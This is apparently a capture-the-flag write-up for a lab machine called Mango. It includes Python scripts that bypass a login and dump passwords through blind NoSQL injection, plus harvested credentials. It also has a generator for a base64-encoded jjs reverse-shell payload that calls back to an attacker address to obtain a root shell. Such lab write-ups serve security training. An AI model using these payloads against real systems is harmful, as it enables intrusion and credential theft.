


# Introduction

This box makes use of sql injection, but not in the way that people normally expect.
The box hosts a few different webpages, with one of them being vulnerable to NoSQL
injection. The NoSQL injection can be used to harvest user credentials, one of which
can be used to ssh into the machine as the mango user. From there, we can login as
the admin user with `su`, and use the `jjs` SUID binary on the machine to spawn a
reverse shell as root.

## Enumeration

### Nmap

```nohighlight
# Nmap 7.92 scan initiated Fri Aug  5 15:56:07 2022 as: nmap -sS -sCV -oA scans/nmap/init -Pn 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug  5 15:56:24 2022 -- 1 IP address (1 host up) scanned in 17.07 seconds
```

### Websites

Nmap shows info about the ssl cert for the website, so we add that information to
/etc/hosts. Using gobuster to scan for additional subdomains does not lead to any
more results.




Navigating to http://mango.htb gives a 403 forbidden message, so this is a dead end.


https://mango.htb does, however, load properly. It brings up what looks like a simple
websearch, but id does not do anything when a search is made. Checking
https://staging-order.mango.htb brings up the same webpage.


Running gobuster on the https website shows an endpoint for
http://mango.htb/analytics.php. 


The analytics page itself, does not load any data, since the required license has
expired. So this is another dead end.


http://staging-order.mango.htb brings up a login page that does not seem to change on
failed login. Probably it is just not showing a proper message to let us know if the
login was successful.


## Shell as Mango

### NoSQL Injection

Running sqlmap on the login page does not show any fields that are vulnerable to
SQL injection. However, NoSQL injection does work, and allows us to bypass
authentication.

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass) provides all the common NoSQL injection tricks. Intercepting the login request with Burpsuite and putting `[$ne]` after each POST parameter bypasses login. 


Successful login redirects to home.php, which is a placeholder page for a future
project


While the actual contents of home.php are not useful, we can still use the NoSQL
injection to gather valid user credentials.
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#blind-nosql)
can once again be reference to create some python scripts that will enumerate valid
users and their passwords.

```python
#!/usr/bin/env python3
# search_users.py
# verifies a user exists

import requests
import string

u="http://staging-order.mango.htb"
headers={'content-type': 'application/x-www-form-urlencoded'}

username=sys.argv[1]

payload='username[$regex]=^{}&password[$gt]='.format(username)
r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
if r.status_code == 302:
    print("valid user: {}".format(username))
```
```python
#!/usr/bin/env python3
# dump_creds.py
# Supply a username and it will dump the password of that user the script runs forever,
# but once the ending of the password ends in "$" over and over again, its done.

import sys
import urllib.parse
import requests
import string

username=sys.argv[1]
password=""
u="http://staging-order.mango.htb"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            c = urllib.parse.quote_plus(c)
            payload='username[$eq]={}&password[$regex]=^{}'.format(username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302:
                password += urllib.parse.unquote(c)
                print(password)
```

Using the search_users.py script, we find two users, admin and mango. Then using the
dump_creds.py script we can figure out both of their passwords.

```nohighlight
username: mango
password: h3mXK8RhU~f{]f5H
```
```nohighlight
username: admin
password: t9KcS3>!0B#2
```

Attempting to use admin's credentials to ssh into the machine fails, but mango's
credentials login successfully.


## Shell as root

Running linpeas shows that openjdk11 is installed and the included binary jjs has the
suid bit set. The admin user is also able to run it.


<!--  -->

We could not ssh into the machine as admin, but attempting to use `su` and providing
the previously obtained password for admin logs in successfully


The reason we could not ssh as admin is due to the rules set by sshd_config


We can reference [gtfobins](https://gtfobins.github.io/gtfobins/jjs/#reverse-shell)
to find a way to use `jjs` to get a reverse shell. This works, but the shell we get
back is still the admin user. In order for the shell to be a root shell, `-p` needs
to be passed as an argument when executing `/bin/bash`.


The following script can be used to generate a copy-pasteable payload.

```python
#!/usr/bin/env python3
# gen_payload.py
# generates a payload for jjs that can be copy pasted into the target machine. will
# create a reverse shell at LHOST:LPORT

import base64

LHOST = "10.10.14.11"
LPORT = 4444

payload = (
    'var ProcessBuilder = Java.type("java.lang.ProcessBuilder");'
    'var p=new ProcessBuilder("/bin/bash", "-i", "-p").redirectErrorStream(true).start();'
    'var Socket = Java.type("java.net.Socket");'
    f'var s=new Socket("{LHOST}",{LPORT});'
    'var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();'
    'var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();'
)
payload = base64.b64encode(payload.encode())
payload = payload.decode("utf-8")

print(f"echo \"eval(new java.lang.String(java.util.Base64.decoder.decode('{payload}')));\" | jjs")

```

Copying and pasting the output of the previous script into the shell we have as admin
we create a reverse shell on port 4444. 


